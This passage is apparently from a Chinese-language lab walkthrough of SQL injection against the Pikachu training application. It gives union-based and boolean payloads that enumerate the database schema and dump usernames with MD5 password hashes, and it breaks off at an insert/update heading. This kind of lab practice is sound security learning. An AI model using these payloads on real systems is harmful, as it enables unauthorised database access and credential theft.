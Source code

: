 ![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/pkc36.png)

根据字段查询内容。

```sql
id=-1 union select group_concat(username),group_concat(password) from users#
```

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/pkc37.png)

### 字符型注入(get)

> 输入一个单引号`'` 发现报错（简单漏洞探测） 并且有报错回显也可以进行**报错注入**。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/pkc38.png)

payload：

```sql
lili' or 1=1#
lili' order by 2#
lili' union select database(),user()#
-1' union select database(),user()#
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema="pikachu" and table_name='users'#
-1' union select 1,group_concat(username,':',password) from pikachu.users#
// 最后得到
admin:e10adc3949ba59abbe56e057f20f883e,pikachu:670b14728ad9902aecba32e22fa4f6bd,test:e99a18c428cb38d5f260853678922e03
```

### 搜索型注入

Get请求，同上。

### xx型注入

payload:lili'，报错内容：

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''lili'')' at line 1
```

那就补个`)`再进行闭合：

payload：

```sql
lili') or 1=1#
// 其他都差不多
```

### "insert/update"注入
